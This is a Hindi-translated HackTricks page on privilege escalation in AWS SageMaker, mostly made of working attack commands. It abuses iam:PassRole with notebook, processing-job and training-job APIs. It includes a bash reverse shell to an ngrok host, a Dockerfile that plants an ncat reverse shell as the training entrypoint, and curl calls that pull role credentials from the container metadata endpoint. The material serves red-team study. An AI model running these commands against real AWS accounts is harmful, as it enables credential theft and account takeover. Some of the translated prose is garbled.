 # AWS - Sagemaker विशेषाधिकार बढ़ाना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM रोल के साथ एटैच करने के लिए नोटबुक बनाना शुरू करें:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में एक `NotebookInstanceArn` फ़ील्ड शामिल होगा, जिसमें नए नोटबुक इंस्टेंस का ARN होगा। हम फिर `create-presigned-notebook-instance-url` API का उपयोग कर सकते हैं ताकि हम नोटबुक इंस्टेंस तैयार होने पर उस तक पहुंचने के लिए उपयोग कर सकें:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate करें URL पर और ब्राउज़र में `Open JupyterLab` पर क्लिक करें, फिर "Launcher" टैब पर स्क्रॉल करें और "Other" खंड के तहत, "Terminal" बटन पर क्लिक करें।

अब IAM Role के metadata credentials तक पहुंचना संभव है।

**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को प्राइवेस्क करना।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

अगर उस पर पहले से ही Jupyter **नोटबुक चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` के साथ सूचीबद्ध कर सकते हैं (या उन्हें किसी अन्य तरीके से खोज सकते हैं)। आप **उनके लिए एक URL उत्पन्न कर सकते हैं, उन्हें एक्सेस कर सकते हैं, और पिछली तकनीक में संकेतित क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सेजमेकर सेवा भूमिका में उन्नति।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अधिकारों वाले एक हमलावर **सेजमेकर को एक प्रोसेसिंग जॉब का निष्पादन करने** के लिए एक सेजमेकर भूमिका संलग्न कर सकता है। हमलावर को उस कंटेनर की परिभाषा दर्ज करने की अनुमति हो सकती है जो एक **AWS प्रबंधित ECS खाते के उदाहरण में चलाया जाएगा**, और **संलग्न आईएएम भूमिका के प्रमाण पत्र चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, उस पर **एक विचारात्मक कंटेनर चला** कर उसके साथ एक **भूमिका संलग्न** करेगा। इसलिए, हमलावर को भूमिका के क्रेडेंशियल चुरा लेने की क्षमता होगी।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले से अधिक उत्पीड़न करने के लिए है क्योंकि आपको एक डॉकर छवि उत्पन्न करनी होगी जो हमलावर को सीधे हमलावर को भेजेगी (आप प्रशिक्षण नौकरी के विन्यास में एक प्रारंभिक कमांड नहीं दिखा सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) **हाइपरपैरामीटर प्रशिक्षण नौकरी** बना सकता है, उस पर **किसी भी आरबिट्रेरी कंटेनर को चला सकता है** जिसमें एक **भूमिका संलग्न** है।\
_मैंने समय की कमी के कारण उत्पीड़न नहीं किया है, लेकिन पिछले उत्पीड़नों के समान दिखता है, उत्पीड़न विवरण के साथ पीआर भेजने के लिए स्वतंत्र महसूस करें।_

# संदर्भ
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स को **पीआर** के माध्यम से [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में सबमिट करके।

</details>
